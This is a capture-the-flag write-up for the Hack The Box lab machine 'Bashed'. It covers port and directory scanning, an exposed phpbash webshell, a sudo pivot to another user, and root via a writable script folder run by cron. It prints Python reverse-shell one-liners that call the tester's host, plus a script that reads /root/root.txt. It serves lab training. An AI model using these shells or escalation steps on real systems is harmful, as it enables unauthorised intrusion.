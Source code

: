 # Hack The Box: Bashed

Nmap scans 

```zsh
nmap -sS -p- -Pn -v 10.10.10.68
```
We will see that only port 80 is open. So that is our way in. It shows about phpbash a webshell which can be used where there is no reverse shell possible.

We can do a dirsearch to fuzz the directories.

```zsh
 python3 dirsearch.py -u http://10.10.10.68 -e r -R 3
 ```

This looks interesiting:

```
[02:33:31] 200 -   14B  - /dev/
```
Once you go there: You will have a phpbash.php. Click on the link and then proceed to have a webshell. To get a reverse shell from this a lot of methods failed. 

Do a sudo -l and see that sudo can be executed without password by scriptmanager which is a user. Hence we get a shell as scriptmanager using

```
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Start a listener and you will have a reverse shell

```zsh
rlwrap nc -lvnp 443
```

Now ```sudo -l ``` will not work for you as it needs password. ```/scripts``` looked fishy.

On doing a ```cat``` on both files. You will see the ```test.py``` has a python code which prints something inside ```test.txt``` and doing ls -lah you will see ```test.txt``` belongs to root. It means something is running as a cron. Remove the test.txt and see it will comeback again. So I wrote another ```read.py``` to see if it will read the ```root.txt``` and opened the file to see it was there.

Contents of ```readme.py```

```python
txt = open("/root/root.txt")
txt1 = txt.read() 
txt.close()
txt = open("test.txt", "w")
txt.truncate()
txt.write(txt1)
```

And if you want a reverse shell.

Contents of ```shell.py```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
Also, I later checked that there was a cronjob running which was doing this.

```
cat root                                       
# DO NOT EDIT THIS FILE - edit the master and reinstall.       
# (/tmp/crontab.igz05b/crontab installed on Mon Dec  4 17:53:17 2017) 
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)                   
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```
Simple !
